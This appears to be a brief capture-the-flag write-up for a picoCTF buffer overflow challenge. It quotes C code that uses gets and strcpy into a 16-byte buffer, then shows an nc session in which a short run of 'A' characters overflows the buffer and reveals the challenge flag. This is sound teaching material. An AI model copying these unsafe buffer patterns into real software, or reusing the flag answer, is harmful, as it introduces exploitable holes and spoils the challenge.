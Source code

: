 As such, triggering a buffer overflow will allow us to get the flag.

Vulnerable part of the code: 
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
int main(int argc, char **argv){
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  ...
}
```

The buffer `buf2` for `strcpy` is 16 characters while our input buffer, which is `buf1`, is 100 characters. As such, this will cause a buffer overflow.

```sh
>> nc saturn.picoctf.net 65355
Input: AAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```

## CVE-XXXX-XXXX

![](Images/Q-CVE-xxxx-xxxx.png)
